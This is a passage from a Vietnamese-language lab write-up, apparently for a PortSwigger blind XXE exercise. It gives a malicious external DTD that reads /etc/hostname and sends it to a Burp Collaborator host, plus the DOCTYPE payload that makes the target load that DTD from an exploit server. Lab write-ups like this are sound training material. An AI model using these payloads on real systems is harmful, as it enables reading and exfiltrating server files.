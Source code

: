 -Định nghĩa 1 parameter entity với tên "file" có giá trị là nội dung tệp "/etc/hostname"

```<!ENTITY % file SYSTEM "file:///etc/hostname">```

-Định nghĩa 1 entity với tên "exploit" chứa 1 định nghĩa khác parameter entity với tên "retrieve" truy cập tới Burp Collaborator và gửi tham số "x" với tham chiếu "%file":

```<!ENTITY % exploit "<!ENTITY &#25; retrieve SYSTEM 'http://wgg6uys4uisg28lb8jwplozo7fd61wpl.oastify.com/?x=%file;'>">```

-Gọi các tham chiếu %exploit, %retrieve; cuối cùng ta có nội dung file ".dtd" đầy đủ:

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % exploit "<!ENTITY &#x25; retrieve SYSTEM 'http://wgg6uys4uisg28lb8jwplozo7fd61wpl.oastify.com/?x=%file;'>">
%exploit;
%retrieve;
```

-Nội dung file ".dtd" được lưu tại "exploit.dtd"

![alt text](./img/lab5-3.png)

-Hiện giờ ta chỉ cần khiến server victim gọi tới file "exploit.dtd" này:

```xml
<!DOCTYPE prochicken [
<!ENTITY % xxe SYSTEM "https://exploit-0ac100c003af5bcb809b434d01630013.exploit-server.net/exploit.dtd">
%xxe;
]>
```

![alt text](./img/lab5-4.png)

